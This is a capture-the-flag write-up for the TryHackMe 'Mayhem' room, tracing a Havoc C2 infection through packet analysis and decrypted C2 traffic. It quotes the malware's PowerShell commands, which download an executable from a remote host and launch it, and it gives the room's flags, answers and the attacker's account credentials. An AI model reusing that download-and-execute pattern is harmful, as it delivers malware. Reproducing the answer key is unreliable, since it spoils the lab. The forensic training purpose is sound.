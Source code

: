 # TryHackMe: Mayhem Challenge  

**Room URL:** [https://tryhackme.com/room/mayhemroom](https://tryhackme.com/room/mayhemroom)

---

## 🧠 Scenario

Beneath the tempest's roar, a quiet grace,  
Mayhem's beauty in a hidden place.  
Within the chaos, a paradox unfolds,  
A tale of beauty, in disorder it molds.

Click on the **Download Task Files** button at the top of this task. You will be provided with an `evidence.zip` file. Extract the contents and begin your analysis.

---

## 🔍 Analysis & Questions

> The script is trying to download `notepad.exe` from the following PowerShell commands:
- `$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";`
- `$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";`
- `Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;`
- `$65lmAtnzW8 = New-Object System.Net.WebClient;`
- `$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx); Start-Process -Filepath $LA4rJgSPpx`

![Download command](assets/image-9.png)

---

> First packet when the GET request was sent:
![GET request packet](assets/image-10.png)

---

> The `notepad.exe` tries to execute `demonx64.exe`:
![Demon process](assets/image-11.png)

---

> Exported the file and ran `md5sum`, then checked it on VirusTotal:

![VirusTotal hash](assets/image-12.png)

---

> Found the name "Havoc" and researched it:
![Havoc identified](assets/image-13.png)

---

Refer to this write-up on decrypting Havoc C2:
[https://www.immersivelabs.com/resources/blog/havoc-c2-framework-a-defensive-operators-guide](https://www.immersivelabs.com/resources/blog/havoc-c2-framework-a-defensive-operators-guide)

![Havoc article](assets/image-14.png)

> AES Key and IV found:
- AES Key: `946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca`
- IV Key: `8cd00c3e349290565aaa5a8c3aacd430`

Used this parser to decrypt and analyze the Havoc C2 traffic:  
[https://github.com/Immersive-Labs-Sec/HavocC2-Forensics/blob/main/PacketCapture/havoc-pcap-parser.py](https://github.com/Immersive-Labs-Sec/HavocC2-Forensics/blob/main/PacketCapture/havoc-pcap-parser.py)

> Output from running the script:

![Script output 1](assets/image-15.png)  
![Script output 2](assets/image-3.png)

---

### Q1: What is the SID of the user that the attacker is executing everything under?  
**Answer:** `S-1-5-21-679395392-3966376528-1349639417-1103`  
![SID](assets/image-16.png)

---

### Q2: What is the Link-local IPv6 Address of the server?  
**Answer:** `fe80::e134:1b0c:c8d5:3020%6`  
![IPv6](assets/image-5.png)

---

### Q3: The attacker printed a flag for us to see. What is that flag?  
**Answer:** `THM{HavOc_C2_DeCRypTing_is_Fun_Fun_FUN}`  
![Flag](assets/image-6.png)

---

### Q4: The attacker added a new account as a persistence mechanism. What is the username and password of that account?  
**Answer:** `administrato:WfD3hz3AXZ4n`

---

### Q5: The attacker found an important file on the server. What is the full path of that file?  
**Answer:** `C:\Users\paco\Desktop\Files\clients.csv`  
![CSV path](assets/image-7.png)

---

### Q6: What is the flag found inside the file from question 5?  
**Answer:** `THM{I_Can_SEE_ThE_fiL3_YoU_ToOk}`  
![CSV flag](assets/image-8.png)
